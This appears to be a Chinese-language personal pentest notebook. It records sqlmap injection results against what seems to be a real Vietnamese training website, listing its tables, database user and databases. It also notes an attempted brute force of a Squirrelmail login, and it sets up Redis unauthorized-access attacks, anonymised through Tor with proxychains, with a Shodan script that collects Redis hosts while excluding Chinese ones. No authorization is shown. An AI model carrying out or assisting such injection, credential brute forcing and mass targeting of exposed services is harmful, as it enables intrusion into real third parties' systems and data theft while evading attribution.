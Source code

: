 ```
		| buoihoc    |
		| counter    |
		| giangduong |
		| hocvien    |
		| ketqua     |
		| kienthuc   |
		| loailop    |
		| lop        |
		| nganh      |
		| nhatky     |
		| t_bao      |
		| thanhvien  |
		| tintuc     |
		| tuan       |
		| useronline |
 	9.sqlmap-具体列名
 		爆出来的东西大部分是没有意义的字母组合，谷歌翻译也没办法处理，搁置。


 	10. 发现Squirrelmail邮件登录地址，明文传输且没有验证码，尝试burpsuite抓包爆破。
 		网速太慢，搁置。
```


### sqlmap进行注入检测
```code
current user:'daotaonlyt_thanh@localhost'
[*] 'daotaonlyt_thanh'@'localhost' [1]:
    privilege: USAGE
web application technology: Apache 2, PHP 5.2.17
back-end DBMS: MySQL >= 5.0.12
current database:'daotaonlyt_dhyd'
available databases [2]:
[*] daotaonlyt_dhyd
[*] information_schema

```
#### 子域名挖掘
	无
# 对redis未授权访问漏洞利用测试
### 代理
配置proxychains使用tor网络，开启ss-server进程：

> proxychains ss-server -c tor_config.json -f pid 2

<div class="divider"></div>

### 通过shodan提供的API:
> 账户权限不够，只能获取前100条数据进行测试。
```python
api = shodan.Shodan('apikey')
try:
    res = api.search("redis")
	print(res['total'])
	with open("./test_ip.txt","w") as fo:
		for res in res['matches']:
			if res['location']['country_code'] == 'CN':
				continue
			fo.write(res['ip_str']+"\n")
except shodan.APIError as e:
	print(e)
```